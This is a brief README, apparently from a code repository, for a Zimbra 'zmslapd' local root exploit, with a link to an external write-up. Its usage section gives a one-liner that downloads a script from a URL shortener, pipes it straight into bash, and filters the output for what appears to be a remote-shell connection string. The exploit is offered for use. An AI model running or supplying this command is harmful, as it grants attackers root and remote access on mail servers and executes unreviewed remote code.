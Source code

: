 # Zimbra local ROOT exploit
Zimbra "zmslapd" local root exploit rewriten by Aels
# Usage
```
curl -fskSL is.gd/zimbslap | bash 2>&1 | grep -oE "gs.+-i"
```
# Details
https://darrenmartyn.ie/2021/10/27/zimbra-zmslapd-local-root-exploit/
